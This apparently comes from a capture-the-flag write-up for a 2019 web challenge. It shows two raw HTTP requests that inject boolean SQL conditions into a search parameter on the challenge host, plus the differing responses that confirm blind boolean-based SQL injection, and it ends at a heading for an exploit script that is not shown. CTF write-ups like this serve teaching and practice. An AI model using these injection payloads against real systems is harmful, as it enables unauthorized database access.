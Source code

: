 




### SQLi

GET /Search.php?Search=Eggs'+and+1=1--+- HTTP/1.1
Host: web2.tamuctf.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
DNT: 1
Referer: http://web2.tamuctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close


-> evaluate to TRUE


HTTP/1.1 500 Internal Server Error
Server: nginx/1.15.8
Date: Sat, 02 Mar 2019 02:45:11 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 193
Connection: close

<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Eggs</h1></br><img src='Happy_Eggs.png'>



GET /Search.php?Search=Eggs'+and+1=2--+- HTTP/1.1
Host: web2.tamuctf.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
DNT: 1
Referer: http://web2.tamuctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close


-> evaluate to FALSE

HTTP/1.1 500 Internal Server Error
Server: nginx/1.15.8
Date: Sat, 02 Mar 2019 02:45:28 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 212
Connection: close

<html><head><style>img{ display: block; margin-left: auto; margin-right: auto; width: 75%; height: 75%;}h1{ text-align: center; }</style></head></br><h1>Our search isn't THAT good...</h1></br><img src='Ehhh.png'>



# Exploitation - Blind Boolean-based SQLi (birdbox_exploit.py)
